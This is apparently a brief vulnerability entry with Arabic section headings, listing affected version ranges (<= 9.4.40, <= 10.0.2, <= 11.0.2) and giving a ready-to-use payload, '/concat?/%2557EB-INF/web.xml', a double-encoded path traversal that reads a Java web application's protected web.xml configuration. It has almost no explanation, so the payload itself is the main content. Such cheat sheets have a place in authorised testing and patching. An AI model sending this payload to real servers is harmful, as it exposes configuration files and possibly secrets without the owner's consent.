 <languages />

الإصدار المتأثر
---------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml